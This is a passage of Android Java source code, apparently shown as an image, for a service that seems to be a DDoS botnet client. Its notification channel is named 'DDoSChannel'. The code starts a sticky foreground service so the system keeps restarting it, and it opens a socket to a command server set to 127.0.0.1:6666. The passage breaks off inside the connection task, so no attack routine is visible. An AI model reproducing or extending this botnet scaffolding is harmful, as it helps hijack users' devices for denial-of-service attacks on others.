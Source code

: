 ```
private static final String CHANNEL_ID = "DDoSChannel";
private Handler ReconnectServerHandler = new Handler(Looper.getMainLooper());
private boolean isConnected = false;
private Socket clientSocket;
private BufferedReader input;
private OutputStream output;


 @Override
    public void onCreate() { //initializations in onCreate
        super.onCreate();

 createNotificationChannel();
 startForegroundService();
 connectToServer();

}


    private void createNotificationChannel() { //13,14D They demand such perversions.
        if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.O) {
            CharSequence name = "Foreground Service";
            String description = "Channel";
            int importance = NotificationManager.IMPORTANCE_DEFAULT;
            NotificationChannel channel = new NotificationChannel(CHANNEL_ID, name, importance);
            channel.setDescription(description);
            NotificationManager notificationManager = getSystemService(NotificationManager.class);
            notificationManager.createNotificationChannel(channel);
        }
    }

private void startForegroundService() {
        Intent notificationIntent = new Intent(this, MainActivity.class);
        PendingIntent pendingIntent = PendingIntent.getActivity(this, 0, notificationIntent, PendingIntent.FLAG_IMMUTABLE);

        Notification notification = new NotificationCompat.Builder(this, CHANNEL_ID)
                .setContentTitle("Foreground Service")
                .setContentText("Service is running in the background")
                .setSmallIcon(R.mipmap.ic_launcher)
                .setContentIntent(pendingIntent)
                .build();

        startForeground(1, notification);
    }
@Override
    public int onStartCommand(Intent intent, int flags, int startId) {
        return START_STICKY;
    }

    private void connectToServer() {
        new ConnectToServerTask().execute("127.0.0.1", "6666");//ip:p servers
    }

    private class ConnectToServerTask extends AsyncTask<String, Void, Boolean> {
        private String serverIp;
        private int serverPort;

        @Override
        protected Boolean doInBackground(String... params) {
            serverIp = params[0];
            serverPort = Integer.parseInt(params[1]);

```